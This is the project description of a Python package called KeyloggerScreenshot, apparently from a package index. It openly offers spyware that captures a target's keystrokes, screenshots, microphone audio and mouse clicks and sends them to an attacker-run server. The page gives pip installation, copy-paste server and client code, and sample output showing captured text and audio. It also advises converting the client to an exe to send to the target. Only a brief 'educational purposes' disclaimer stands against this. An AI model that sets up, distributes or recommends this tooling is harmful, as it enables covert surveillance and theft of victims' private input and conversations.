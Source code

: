 Project description
===================
KeyloggerScreenshot
====================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. Every mouse click will be stored in a text file. Follow the instructions to build your own server in "KeyloggerScreenshot"

Check out my github for the more easier way: https://github.com/Facileee/KeyloggerScreenshot

To install KeyloggerScreenshot simply type:
`pip install KeyloggerScreenshot `
In your terminal


HOW DOES KeyloggerScreenshot WORK?
----------------------------------
* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

FOR EXAMPLE:
============

Servers:
---------

#EveryServer.py:
```python
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1" #Your IP-Adress

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()
```


Clients:
---------
```python
#client_target.py
import KeyloggerScreenshot as ks

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60)
key_client.start()
```

```text
Output

Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer

Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...
```


Directory of Attacker:
-----------------------
[img_1.png](https://raw.githubusercontent.com/Facileee/KeyloggerScreenshot/master/img_1.png)

Additional

* You can send "client_target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The client should be a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.

